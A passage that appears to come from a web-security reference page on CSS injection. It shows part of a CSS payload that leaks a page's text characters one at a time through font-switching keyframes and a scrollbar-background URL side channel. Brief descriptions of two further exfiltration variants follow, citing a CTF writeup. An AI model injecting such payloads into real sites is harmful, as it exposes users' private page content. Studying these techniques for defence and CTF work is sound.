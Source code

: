 ```css
80% { font-family: has_P, rest; --leak: url(?p); }
81% { font-family: rest; }
85% { font-family: has_Q, rest; --leak: url(?q); }
86% { font-family: rest; }
90% { font-family: has_R, rest; --leak: url(?r); }
91% { font-family: rest; }
95% { font-family: has_S, rest; --leak: url(?s); }
96% { font-family: rest; }
}

/* increase width char by char, i.e. add new char to prefix */
@keyframes loop {
0% { width: 0px }
1% { width: 20px }
2% { width: 40px }
3% { width: 60px }
4% { width: 80px }
4% { width: 100px }
5% { width: 120px }
6% { width: 140px }
7% { width: 0px }
}

div::-webkit-scrollbar {
background: blue;
}

/* side-channel */
div::-webkit-scrollbar:vertical {
background: blue var(--leak);
}
```
### Text node exfiltration (III): leaking the charset with a default font by hiding elements (not requiring external assets) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Reference:** [This writeup](https://blog.huli.tw/2022/06/14/en/justctf-2022-writeup/#ninja1-solves) mentions this as an unsuccessful solution.

This case is very similar to the previous one, however, in this case the goal of making specific **chars bigger than other is to hide something** like a button to not be pressed by the bot or a image that won't be loaded. So we could measure the action (or lack of the action) and know if a specific char is present inside the text.

### Text node exfiltration (III): leaking the charset by cache timing (not requiring external assets) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>
